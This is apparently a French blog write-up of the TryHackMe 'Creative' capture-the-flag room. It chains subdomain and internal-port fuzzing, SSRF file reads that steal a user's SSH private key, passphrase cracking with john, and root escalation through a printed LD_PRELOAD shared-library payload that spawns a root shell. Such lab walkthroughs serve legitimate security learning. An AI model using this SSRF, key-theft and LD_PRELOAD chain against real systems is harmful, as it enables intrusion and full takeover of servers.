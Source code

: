 ```yaml
---
date: 2024-04-17T22:14:41-05:00
# description: ""
image: "/images/THM-Creative/Creative.svg"
showTableOfContents: true
tags: ["TryHackMe"]
categories: ["Writeups"]
title: "THM: Creative"
type: "post"
---
```


* Platform: TryHackMe
* Link: [Creative](https://tryhackme.com/r/room/creative)
* Level: Easy
* OS: Linux
---

* Platforme: TryHackMe
* Lien: [Creative](https://tryhackme.com/r/room/creative)
* Niveau: Facile
* OS: Linux
---

Ce défi commence par un site web statique qui n'est pas exploitable. L'énumération des sous-domaines permet de découvrir une application de test d'URL vulnérable au SSRF. Cependant, l'exploitation complète n'est possible qu'après la découverte d'un port exposé en interne. Cet accès permet de lire des fichiers sur le serveur, ce qui conduit à la récupération d'une clé privée SSH. Mais cela ne suffit pas pour établir un point d'ancrage. Une fois la clé SSH obtenue, le hash est craqué, donnant accès au système cible. Enfin, une élévation de privilèges est réalisée en exploitant la variable d'environnement `LD_PRELOAD`.

Adresse IP cible - `10.10.119.61`

## Scanning 

```
nmap -sC -sV -oA nmap/Creative 10.10.119.61
```

**Résultats**

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-12 20:52 CDT
Nmap scan report for 10.10.119.61
Host is up (0.27s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://creative.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.97 seconds
```

Nous avons deux ports ouverts, 22 (SSH) et 80 (Nginx). Nous sommes redirigés vers `http://creative.thm`.

```
sudo echo "10.10.119.61 creative.thm" | sudo tee -a /etc/hosts
```

## Enumération

Le site web semble plutôt simple, sans aucun élément exploitable. 

L'énumération des répertoires et l'examen du code source ne donnent rien.

En utilisant ffuf pour l'énumération des sous-domaines, nous trouvons `beta`.

```
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --fc 404 -t 100 -u http://creative.thm -H "Host: FUZZ.creative.thm" -ic -fs 178
```

![Beta subdomain found](/images/THM-Creative/beta-subdomain.png)

Après l'avoir ajouté au fichier `/etc/hosts`, nous le visitons et il s'avère être un testeur d'URL.

![URL tester website](/images/THM-Creative/beta-url-tester.png)

En soumettant `http://127.0.0.1:80`, on retrouve le contenu de la page principale sans le style, ce qui fait penser à SSRF.

![URL tester SSRF 1](/images/THM-Creative/url-test.png)

Une tentative avec l'url `http://creative.thm/etc/passwd` ne fonctionne pas et renvoie `Dead`.

![File read attempt failed](/images/THM-Creative/file-read-fail.png)

Essayons de découvrir les ports internes ouverts sur la cible.

```
ffuf -u 'http://beta.creative.thm/' -d "url=http://127.0.0.1:FUZZ/" -w <(seq 1 65535) -H 'Content-Type: application/x-www-form-urlencoded' -mc all -t 100 -fs 13
```

![Internal ports fuzzing](/images/THM-Creative/ffuf-cmd.png)

Le port `1337` est découvert, en soumettant `http://127.0.0.1:1337/` nous pouvons lister les répertoires sur le serveur.

![Directories on the server](/images/THM-Creative/server-directories.png)

Avec Burp, nous explorons le système de fichiers et examinons ce que nous pouvons y trouver. Allons dans `/home`.

![Home directory via SSRF](/images/THM-Creative/home-dir.png)

Dans `/home` nous trouvons un répertoire pour `saad`. En allant plus loin avec `http://127.0.0.1:1337/home/saad/` nous découvrons le dossier `.shh` et le drapeau de l'utilisateur `user.txt`. 

Il suffit d'utiliser `http://127.0.0.1:1337/home/saad/user.txt` pour révéler le premier drapeau.

## Accès Initial

En soumettant `http://127.0.0.1:1337/home/saad/.ssh/id_rsa` nous pouvons récupérer la clé SSH de l'utilisateur.

![saad user SSH key](/images/THM-Creative/saad-ssh-key.png)

> N'oubliez pas de configurer les permissions correctes sur la clé avec `chmod 600`.

La tentative de connexion via SSH échoue parce que nous avons besoin de la phrase secrète de l'utilisateur.

```
ssh saad@creative.thm -i id_rsa
```
![SSH login failed](/images/THM-Creative/ssh-fail.png)

Nous pouvons utiliser `john` pour la trouver en convertissant la clé en un hash craquable.

```
ssh2john id_rsa > hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Hash cracking to recover passphrase](/images/THM-Creative/passphrase.png)

Elle est trouvée et nous pouvons maintenant nous connecter.

![Initial foothold via SSH login](/images/THM-Creative/foothold.png)

## Elévation de Privilèges

Une des choses que nous devrions toujours vérifier est le fichier `.bash_history`. Il révèle le mot de passe du compte `saad`.

![Account password recovered](/images/THM-Creative/system-password.png)

Avec ce mot de passe, nous pouvons lancer `sudo -l`. L'utilisateur est capable de lancer `/usr/bin/ping` en tant que root.

![Sudo -l command](/images/THM-Creative/sudo-l.png)

Il n'y a pas grand chose à faire avec `ping`. Nous pourrions essayer de remplacer le binaire par un binaire malveillant si nous avions les droits d'écriture sur `/usr/bin/` mais ce n'est pas le cas, tous les fichiers appartiennent à root.

![Ping binary permissions](/images/THM-Creative/ping-binary.png)

Notre prochaine piste est la variable d'environnement `LD_PRELOAD`.

> La mention `env_keep+=LD_PRELOAD` dans la configuration sudo suggère que `saad` est autorisé à préserver la variable d'environnement `LD_PRELOAD` lors de l'exécution des commandes sudo. Cela pourrait potentiellement être utilisé pour charger des bibliothèques partagées malveillantes.


`LD_PRELOAD` est une variable d'environnement sous Linux et d'autres systèmes d'exploitation de type Unix. Elle permet à l'utilisateur de spécifier une liste de bibliothèques partagées supplémentaires à précharger avant toutes les autres lors de l'exécution d'un programme.

Un excellent article sur `Linux Privilege Escalation using LD_Preload` est disponible [ici](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/). 

1. Nous créons un fichier `shell.c` dans `/tmp`

```
cd /tmp
nano shell.c 
```

Ci-dessous le contenu de mon fichier, j'ai modifié celui de l'article qui me posait des problèmes lors de la compilation.

```C
#include <stdio.h>
#include <unistd.h> // Include this header for setuid() and setgid() functions
#include <stdlib.h>

void _init() 
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

2. Nous compilons et lions `shell.c` dans une bibliothèque partagée nommée `shell.so`

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

![Shared library permissions](/images/THM-Creative/shared-library.png)

3. Enfin, nous exécutons la commande `ping` avec la variable d'environnement `LD_PRELOAD` fixée à `/tmp/shell.so` et nous accédons à root.

```
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/ping
```

![Privilege escalation and root flag](/images/THM-Creative/root-flag.png)

Ce challenge était assez simple, montrant comment une vulnérabilité peut conduire à une chaîne d'exploitation. Il a également mis en évidence la façon dont les mauvaises configurations peuvent être utilisées à l'avantage d'un attaquant. En attendant le prochain, continuez à apprendre!

